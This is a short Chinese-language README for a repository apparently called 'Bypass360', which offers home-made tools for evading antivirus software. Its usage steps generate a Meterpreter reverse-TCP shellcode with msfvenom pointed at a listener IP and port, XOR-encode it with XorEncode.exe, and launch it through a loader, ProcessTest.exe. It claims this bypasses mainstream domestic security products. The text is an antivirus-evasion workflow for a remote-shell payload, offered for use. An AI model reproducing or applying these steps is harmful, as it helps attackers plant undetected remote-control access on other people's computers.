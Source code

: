 # Bypass360
该仓库用于放置自己编写绕过杀软的程序
使用方法：
1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin
2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData
3.最后用ProcessTest.exe执行加密后的文件EncodeRAWData：ProcessTest.exe EncodeRAWData

绕过效果：可以绕过国内主流的安全防护软件
